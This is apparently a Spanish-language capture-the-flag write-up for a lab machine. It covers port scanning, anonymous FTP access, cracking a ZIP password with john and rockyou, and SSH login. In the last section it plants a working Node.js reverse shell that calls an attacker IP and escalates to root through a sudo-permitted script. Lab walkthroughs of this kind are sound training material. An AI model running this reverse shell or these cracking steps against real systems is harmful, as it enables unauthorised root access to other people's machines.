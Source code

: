 ![1](https://github.com/user-attachments/assets/e29678ab-1633-41fb-a33a-d4f28a13f1f2)

## Conectividad con la máquina objetivo

Vemos que al desplegar la máquina nos da una IP, así que hacemos un ping y comprobamos la conectividad.

![3](https://github.com/user-attachments/assets/1d28bf54-e8bd-46ae-9062-e4738a4d6173)

Hacemos ping y vemos que tenemos conectividad

![4](https://github.com/user-attachments/assets/7916527c-6dad-4ac6-8475-9640185f3380)

## Descubrimiento de Puertos y Servicios

Lanzo un escaneo con `nmap` y compruebo lo siguiente:

`nmap -p- -sS -sC -sV -O 172.17.0.2 -oN puertos.txt`

![2](https://github.com/user-attachments/assets/90d7d84b-f36e-489c-bfd0-c09dfd7f0040)

### Puertos y Servicios

| Puerto | Servicio | Versión       |
| ------ | -------- | ------------- |
| 21     | FTP      | Vsftpd 3.0.3  |
| 22     | SSH      | OpenSSH 9.2p1 |

## Fase de Explotación

Vemos que podemos entrar como **anonymous** en FTP y que hay un archivo ZIP. Nos los traemos a nuestra máquina con el comando get.

![5](https://github.com/user-attachments/assets/98e09495-9266-4e30-948e-78c3d23f5f2e)

Lo abrimos y a simple vista veo que hay un .txt con la clave para entrar por SSH.

![6](https://github.com/user-attachments/assets/fdd44f7c-1c61-4c85-a21d-e062b8335919)

Si lo intentamos extraer nos pide una clave, pero no la sabemos.

Podemos convertir el fichero a un hash para luego con john hacer fuerza bruta para sacar la clave del .zip.

`zip2jhon secretitopicaron.zip > secretitohash`

![7](https://github.com/user-attachments/assets/c24fa042-8fe4-4825-91bc-3d7ee84bc21b)

Ahora con `jhon` intentamos sacar la clave.

`john --format=PKZIP -w /usr/share/wordlist/rockyou.txt secretitohash`

![8](https://github.com/user-attachments/assets/15fde27b-146c-447b-a08e-b24b07bec44f)

Y vemos que la clave es *password1*

Lo intentamos extraer y vemos que si nos deja, abrimos el password.txt y sale esto.

![9](https://github.com/user-attachments/assets/ea94c6f6-0d28-4a20-8c50-fd8719b56677)

Por lo que entramos por SSH y vemos que podemos ejecutar como cualquier usuario el binario node pero solo el script que hay en /home/mario.

![10](https://github.com/user-attachments/assets/73d44641-685e-470c-8cac-e14340b92abd)

Si abrimos el script, vemos que está vacido. Podemos meter una reverse shell y ejecutarla como root para conseguir privilegios.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.1.246", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

En la máquina atacante, en nuestro kali, ejecutamos primero:

`nc -nlvp 443`

Y luego ejecutamos el script

Si se queda colgado y en nuestra máquina conseguimos la bash lo hemos hecho bien.

Ahora ejecutamos `whoami` y vemos que somos root.

![11](https://github.com/user-attachments/assets/f3281978-4be3-43ba-9f6f-5c2cec233b78)

Ya somos root!!
